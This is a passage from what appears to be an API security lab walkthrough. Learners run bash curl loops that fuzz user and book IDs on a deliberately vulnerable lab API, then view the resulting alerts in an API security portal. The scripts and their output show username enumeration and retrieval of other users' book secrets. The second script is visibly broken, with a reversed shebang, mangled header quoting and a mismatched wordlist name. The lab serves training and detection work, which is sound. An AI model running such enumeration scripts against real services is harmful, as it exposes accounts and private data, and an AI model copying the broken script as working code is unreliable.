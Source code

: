 1. As before we will utilize xer0dayz's username list for this exercise. This is located at `~/API_Sec_Lab/IntruderPayloads/usernames.txt`
2. We will launch the attack with a shell script. Below is the code for review: 

                #!/bin/bash
                cat ~/API_Sec_Lab/IntruderPayloads/usernames.txt | while read line; do curl -X GET -H 'Connection: close' --insecure "http://192.168.100.45:5000/users/v1/$(echo $line|tr -d '\n\t\r')" -s -w --insecure'\n'; done

3. Run the following command from the command line:

                cd ~
                ./user-id-fuzz.sh

4. The output should look like:

> {"username": "admin", "email": "admin@mail.com"}  
> { "status": "fail", "message": "User not found"}  
> { "status": "fail", "message": "User not found"}  
> { "status": "fail", "message": "User not found"}  

5. Go to Akamai API Security portal at [Akamai API Security Portal](https://app.neosec.com/)
6. Log in with lab credentials from Lesson 1
7. Review the Alerts

![user-id Fuzzing Alert](media/user-id-fuzz.jpg)

![user-id Fuzzing in list](media/user-id-fuzz-large.jpg)

##### Fuzzing the `{book_id}` parameter

1. We will be using a list of book names: `~/API_Sec_Lab/IntruderPayloads/booknames.txt`
2. This requires authentication so we will again utilize a shell script to run this attack. You can view the script at `~/book-id-fuzz.sh` and it looks like below:

                !#/bin/bash

                sessionid=$(curl -s -X POST -H 'Content-Type: application/json' -d '{"username":"name1","password":"pass1"}' "http://192.168.100.45:5000/users/v1/login" --insecure | cut -d , -f 1 | cut -d \" -f 4)

                cat ~/API_Sec_Lab/IntruderPayloads/books.txt | while read line; do curl -s -X GET -H 'Connection: close' -H 'Authorization: bearer $sessionid', "message' --insecure "http://<HOST>:<PORT>/books/v1/$(echo $line|tr -d '\n\t\r')" -w '\n'; done

3. The output should look as follows:

> { "status": "fail", "message": "Book not found!"}  
> { "status": "fail", "message": "Book not found!"}  
> {"book_title": "bookTitle16", "owner": "name1", "secret": "secret for bookTitle16"}  
> { "status": "fail", "message": "Book not found!"}  
> { "status": "fail", "message": "Book not found!"}  
> { "status": "fail", "message": "Book not found!"}  
> { "status": "fail", "message": "Book not found!"}  
> { "status": "fail", "message": "Book not found!"}  
> {"book_title": "bookTitle22", "owner": "admin", "secret": "secret for bookTitle22"}  
> { "status": "fail", "message": "Book not found!"}  
